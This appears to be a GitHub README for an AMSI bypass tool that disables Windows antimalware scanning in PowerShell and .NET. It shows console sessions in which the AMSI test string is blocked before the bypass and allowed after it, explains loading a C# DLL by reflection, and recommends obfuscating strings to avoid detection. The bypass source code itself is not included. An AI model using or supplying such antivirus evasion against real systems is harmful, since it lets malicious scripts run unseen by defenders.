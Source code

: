 # AmsiScanBufferBypass

## Usage
### PowerShell

`ASBBypass.ps1` works for both x86 and x64 PowerShell.  Before use, I recommend obfuscating strings such as `Win32` to something random.

```
PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
At line:1 char:1
+ Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS > .\ASBBypass.ps1

PS > Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify
that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

### C#

Can be compiled to a DLL and loaded via reflection, or included in a larger .NET Assembly (e.g. [SharpSploit](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/Evasion/Amsi.cs)).

```
PS > [System.Reflection.Assembly]::LoadFile("D:\Tools\ASBBypass\ASBBypass\bin\Release\ASBBypass.dll")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     D:\Tools\ASBBypass\ASBBypass\bin\Release\ASBBypass.dll


PS C:\Users\Daniel> [Amsi]::Bypass()
PS C:\Users\Daniel> Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

Also works with `Assembly.Load` in .NET 4.8.

![Without AMSI Bypass](Image1.png)
![With AMSI Bypass](Image2.png)